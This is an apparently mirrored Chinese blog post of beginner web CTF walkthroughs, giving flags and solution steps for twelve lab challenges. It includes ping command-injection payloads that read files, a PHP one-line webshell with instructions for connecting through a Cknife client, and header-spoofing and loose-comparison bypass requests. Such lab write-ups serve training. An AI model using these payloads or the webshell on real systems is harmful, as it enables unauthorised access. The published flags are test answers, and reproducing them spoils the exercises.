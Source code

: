 <!--yml
category: 未分类
date: 2022-04-26 14:28:09
-->

# WEB CTF入门题解析_Slient-猿的博客-CSDN博客_ctf入门题

> 来源：[https://blog.csdn.net/m0_37948170/article/details/107698805](https://blog.csdn.net/m0_37948170/article/details/107698805)

# ******WEB CTF入门学习******

*   X老师让小宁同学查看一个网页的源代码，但小宁同学发现鼠标右键好像不管用了。
*   答案：cyberpeace{ffbb0c3dcdb78ed0674f699dc967ce67}
*   解析：打开网址http://220.249.52.133:31520/，F12调试模式，查看源码，即可发现flag: cyberpeace{ffbb0c3dcdb78ed0674f699dc967ce67}
*   ****入门题2 get_post****
*   题目描述：X老师告诉小宁同学HTTP通常使用两种请求方法，你知道是哪两种吗？
*   答案：cyberpeace{6b4ffe588795f0221357e0bca8c7b396}
*   解析：在postman上使用get请求，然后根据返回使用post在请求一次，得到flag.

![](img/cc344593b54b39ef4c0c405a3695a32f.png)

*   ****入门题3 robots****
*   题目描述：X老师上课讲了Robots协议，小宁同学却上课打了瞌睡，赶紧来教教小宁Robots协议是什么吧。
*   答案：cyberpeace{bf34b671c82a571999563a558b08422a}
*   解析：Robots协议称为爬虫协议，是网站和爬虫之间的协议，网站通过robots.txt 文件明确告诉爬虫网站那些数据信息可以被爬取。所以说搜素引擎的爬虫第一个访问的就是网站的robots.txt文件，查看其是否存在，存在则可以得到那些页面可以爬取。获取网站robots.txt文件，得到：
*   ![](img/ff90f4c38ac1010207566ae6b83b893b.png)
*   然后访问http://220.249.52.133:57629/f1ag_1s_h3re.php
*   看到flag:
*   ![](img/217dbe9ae1ed436073d1b2e05135b89d.png)
*   ****入门题4 backup****
*   题目描述：X老师忘记删除备份文件，他派小宁同学去把备份文件找出来,一起来帮小宁同学吧！
*   答案：Cyberpeace{855A1C4B3401294CB6604CCC98BDE334
*   解析：访问URL，可以看到如下内容：
*   ![](img/bc43614123b9bc3d98d8a2d36dc004b9.png)
*   接下来访问其备份文件：
*   220.249.52.133:53260/index.php.bak
*   访问可以下载到一个备份文件，打开可以看到flag.
*   ****入门题5 cookie****
*   题目描述：X老师告诉小宁他在cookie里放了些东西，小宁疑惑地想：‘这是夹心饼干的意思吗？’
*   答案：cyberpeace{7025e91937f29b529033285b731a72ea}
*   解析：这题主要考对cookie的基本认识，使用postman访问url:

![](img/9a8737ecbcb6ee3f46fd241b15d36439.png)

![](img/4b89b8f1e00f83481ed34978c155906c.png)

*   ****入门题 6 disabled_button****
*   题目描述：X老师今天上课讲了前端知识，然后给了大家一个不能按的按钮，小宁惊奇地发现这个按钮按不下去，到底怎么才能按下去呢？
*   答案：cyberpeace{ae74951df5a13b95f7b5d11a0ff196df}
*   解析：这个题看眼对HTML只是的认识：浏览器访问过后将其input的disabled属性删除即可点击，点击过后得到flag.
*   把图中的disabled=””删除，保存。然后点击按钮即可。
*   ![](img/cf7dca4a4ec436f7d383fdfce2eb3845.png)
*   ****入门题7 weak_auth****
*   题目描述：小宁写了一个登陆验证页面，随手就设了一个密码。
*   答案：cyberpeace{99ebf561056a2b8d2c6f5f9621765d62}
*   解析：这题就是弱密码的考验，常见的就是admin  密码 123456，输入点击登录得到flag.
*   ****入门题8 command_execution****
*   ****题目描述：小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。****
*   答案：cyberpeace{9a36ab264d1ea981ad6be44d0344795a}
*   解析： 这题考得的是ping命令的注入，常见的命令截断字符：‘$’‘;’‘|’‘-’‘(’‘)’‘反引号’‘||’‘&&’‘&’‘}’‘{’'%0a’可以当作空格来用；ip=220.249.52.133;ls -a  / 测试下是否存在命令注入，发现存在：

![](img/1ce0bc5e32cf98d42b873aa9574ecf2d.png)

*   那么尝试查找flag.txt文件，ip=220.249.52.133;find / -name "flag.*"

     得到：ping -c 3 ip=220.249.52.133;find / -name "flag.*"

          /home/flag.txt

*   找到flag.txt文件位置，使用cat查看文件内容：ip=220.249.52.133;cat /home/flag.txt 得到flag.
*   ****入门题9 simple_php****
*   题目描述：小宁听说php是最好的语言,于是她简单学习之后写了几行php代码。
*   答案：Cyberpeace{647E37C7627CC3E4019EC69324F66C7C}
*   解析：php代码如下：

    ```
    <?php
    show_source(__FILE__);
    include("config.php");
    $a=@$_GET['a'];
    $b=@$_GET['b'];
    if($a==0 and $a){
        echo $flag1;
    }
    if(is_numeric($b)){
        exit();
    }
    if($b>1234){
        echo $flag2;
    }
    ?>
    ```

*   通读代码说明a b的值都是get方式传输给服务端，想要获取flag就得让第一个if和第三个if都是真，第二个是假。== 代表php的弱比较，只比较值是否相等，字符串和数字==比较时，转换为数字时，从字符串第一个非数字字符开始，到第一个非数字字符结束，故“cc”就是0\. 但是if cc 就是true，传唤为ascII 码比较，具体规则可参考：[<u><u>https://www.runoob.com/php/php-types-comparisons.html</u></u>](https://www.runoob.com/php/php-types-comparisons.html)
*   故可以构建请求 ：[<u><u>http://220.249.52.133:54962/?a=c&b=2232c</u></u>](http://220.249.52.133:54962/?a=c&b=2232c) 得到flag：Cyberpeace{647E37C7627CC3E4019EC69324F66C7C}
*   ****入门题 10 xff_referer****
*   题目描述：X老师告诉小宁其实xff和referer是可以伪造的。
*   答案：
*   解析： xff:X-Forwarded-For是http请求头的一个字段，标识请求源的ip地址，Referer： 代表http请求的来源。这题其实就是伪造这两个字段：按照题目要求伪造X-Forwarded-For：123.123.123.123 ，得到响应，要求必须来源于：https://www.google.com，添加Referer，再次请求可以得到flag在响应中得到：cyberpeace{ec307b60ddde418609b7defa46a43e92}
*   ****入门题 11 webshell****
*   题目描述：小宁百度了php一句话,觉着很有意思,并且把它放在index.php里。
*   ****答案：****cyberpeace{5e70bcd88a80c525a7b8a1ee1b1c8c27}
*   ****解析：****打开url后可以看到<?php @eval($_POST['shell']);?> 可以得知这句话是php的一句话木马，可以使用过Cknife进行连接，Cknife github的源码地址：[<u><u>https://github.com/Chora10/Cknife</u></u>](https://github.com/Chora10/Cknife)  ，这里给出一个自己下载编译后的下载地址：https://pan.baidu.com/s/15OUkzP8xcTNkUDlSv3QOkA
*   提取码：i3p1 ，下载解压后，在cmd命令窗口执行：java -jar Cknife.jar  运行起来，添加配置如下：
*   ![](img/b13c8a5bbdc6ce6caf28db30b30b6f38.png)

*   然后选择文件管理：打开后可看到一个flag.txt文件，打开得到flag.
*   ****入门题12 simple_js****
*   题目描述：小宁发现了一个网页，但却一直输不对密码。(Flag格式为 Cyberpeace{xxxxxxxxx} )
*   答案：Cyberpeace{786OsErtk12}
*   解析：打开url，随意输入密码，F12打开，查看源码，可以看到如下js代码：
*   ```
    <script>

    var n=String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50);

        document.write(n);

        function dechiffre(pass_enc){

            var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";

            var tab  = pass_enc.split(',');

                    var tab2 = pass.split(',');var i,j,k,l=0,m,n,o,p = "";i = 0;j = tab.length;

                            k = j + (l) + (n=0);

                            n = tab2.length;

                            for(i = (o=0); i < (k = j = n); i++ ){o = tab[i-l];p += String.fromCharCode((o = tab2[i]));

                                    if(i == 5)break;}

                            for(i = (o=0); i < (k = j = n); i++ ){

                            o = tab[i-l];

                                    if(i > 5 && i < k-1)

                                            p += String.fromCharCode((o = tab2[i]));

                            }

            p += String.fromCharCode(tab2[17]);

            pass = p;return pass;

        }

    debugger

        String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));

        h = window.prompt('Enter password');

        alert( dechiffre(h) );

    </script>
    ```